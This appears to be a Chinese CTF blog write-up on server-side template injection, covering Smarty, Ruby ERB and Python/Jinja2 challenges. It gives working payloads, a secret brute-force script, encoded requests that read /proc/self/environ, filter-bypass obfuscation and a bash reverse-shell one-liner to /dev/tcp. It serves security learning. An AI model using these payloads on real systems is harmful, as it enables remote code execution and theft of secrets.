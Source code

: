 ```yaml
---
title: "SSTI相关"
date: 2020-04-05
description: "记录CTF中遇到的SSTI题型"
categories: [
  "CTF"
]
tags: [
  "SSTI"
]
---
```


![框架判别](ssti.png)
老图镇楼

## [CISCN2019 华东南赛区]Web11

![image-20200405171208647](image-20200405171208647.png)

- 给出了API文档，但是貌似环境出锅无法使用
- 页面右上角存在`Current IP`，且页面底部提示`Build With Smarty !`，想起做过另一道非常类似的题目，属于php的SSTI
- 测试发现`X-Forwarded-For`字段存在无过滤的`SSTI`，比较水，`hackbar`直接打

```js
X-Forwarded-For: {{system('cat /flag')}}
```

- Ctrl+U查看flag

> 记smarty的其他payload:
>
> {if readfile('/flag')}{/if}
>
> 题目原型:
>
> ```php
> <?php
> require_once('./smarty/libs/' . 'Smarty.class.php');
> $smarty = new Smarty();
> $ip = $_SERVER['HTTP_X_FORWARDED_FOR'];
> $smarty->display("string:".$ip);
> }
> ```

## [SCTF2019]Flag Shop

- 开局扫扫扫，扫到一个`robot.txt`，给出`filebak`，文件泄露

- 点开一开，`ruby`，心跳骤停

- 果断查看WP（），得知`#{params[:name][0,7]}`存在erb模板注入

- erb模板注入格式为

  > <%= 7 * 7 %>

- 可控参数`name`长度仅有7，除去`<%=%>`可控长度仅有2个字符

- Ruby中的特殊全局变量

  > $! 最近一次的错误信息
  >
  > $@ 错误产生的位置
  >
  > $_ gets最近读的字符串
  >
  > $. 解释器最近读的行数(line number)
  >
  > $& 最近一次与正则表达式匹配的字符串
  >
  > $~ 作为子表达式组的最近一次匹配
  >
  > $n 最近匹配的第n个子表达式(和$~[n]一样)
  >
  > $= 是否区别大小写的标志
  >
  > $/ 输入记录分隔符
  >
  > $\ 输出记录分隔符
  >
  > $0 Ruby脚本的文件名
  >
  > $* 命令行参数
  >
  > $$ 解释器进程ID
  >
  > $? 最近一次执行的子进程退出状态
  >
  > $`匹配文本之前的文本
  >
  > $‘匹配文本之后的文本

- 有两种解法：利用`$~`或`$’`

- Payload1:`$~`爆破secret：

  ```python
  import requests
  import base64
    
  url = "http://8efd8c29-381e-4f6e-bde0-58b9360fc804.node3.buuoj.cn"
  re = requests.session()
  re.get(url + "/api/auth")
    
  flag = "a93a4d620"
  while True:
     i = ""
     for i in "0123456789abcdef":
         now = flag + i
         #now = i + flag
         res = re.get(url + "/work?name=%3c%25%3d%24%7e%25%3e&do=%3c%25%3d%24%7e%25%3e%20is%20working&SECRET="+now)
         if now in res.text:
             print res.text
             flag = now
             print flag
             break
  print flag
  ```

- Payload2:`$’`获取`secret`

  ```html
  /work?SECRET=&name=%3c%25%3d%24%27%25%3e&do=%3c%25%3d%24%27%25%3e%20is%20working
  ```

  

  拿到`secret`，利用`jwt.io`生成cookies，拿到flag

- Payload3:`$’`结合参数类型转换，绕过长度限制直接读取`/proc/self/environ`

  > Code:
  >
  > ```ruby
  > a = "qwertyu"
  > $b = Array["bbb","cc","d"]
  > puts "$a: #{$a[0,3]}"
  > puts "$b: #{$b[0,3]}"
  > ```
  >
  > Output:
  >
  > ```
  > $a: qwe
  > $b: ["bbb", "cc", "d"]
  > ```

  由于ruby存在php类似的特性，可以在参数中通过[]传入数组，因此直接构造`name`为长度为7的数组，将payload写入name[0]，经过类型转换拼接后便绕过了限制，从而可以RCE

  直接读取`/proc/self/environ`：

  ```html
  /work?SECRET=xxx&do=%5b%22%3c%25%3d%20%46%69%6c%65%2e%6f%70%65%6e%28%27%2f%70%72%6f%63%2f%73%65%6c%66%2f%65%6e%76%69%72%6f%6e%27%29%2e%72%65%61%64%20%25%3e%22%2c%20%22%31%22%2c%20%22%32%22%2c%20%22%33%22%2c%20%22%34%22%2c%20%22%35%22%2c%20%22%36%22%5d%20%69%73%20%77%6f%72%6b%69%6e%67&name[]=%3c%25%3d%20%46%69%6c%65%2e%6f%70%65%6e%28%27%2f%70%72%6f%63%2f%73%65%6c%66%2f%65%6e%76%69%72%6f%6e%27%29%2e%72%65%61%64%20%25%3e&name[]=1&name[]=2&name[]=3&name[]=4&name[]=5&name[]=6
  ```

# [DASCTF]calc1&2

python SSTI弹shell

payload:

```python
getattr(''.__class__.__base__.__subclasses__()[80].__init__.__getattribute__('__glo'+'bal'+'s__')['__buil'+'tins__']['__impo'+'rt__']('o'+'s').__getattribute__('po'+'pen')('bash -c \"bash -i >& /dev/tcp/ip/port 0>&1\"'), 're'+'ad')()
```

记一下跑数组的脚本：

```python
for i in range(len(''.__class__.__base__.__subclasses__())):
	print(i, ''.__class__.__base__.__subclasses__()[i].__init__)
```

常见40/64/75/80

# 校内赛welcomto_flask

绕双下划线，request

```python
{{((()|attr('_'+'_cla'+'ss'+'_'+'_')|attr('_'+'_base'+'_'+'_')|attr('_'+'_subclas'+'ses_'+'_'))()[80]|attr('_'+'_in'+'it_'+'_')|attr('_'+'_glo' + 'bals_'+'_'))['_'+'_buil'+'tins_'+'_']['ev'+'al']('_'+'_import_'+'_("os").popen("/readflag").read()')}}
```


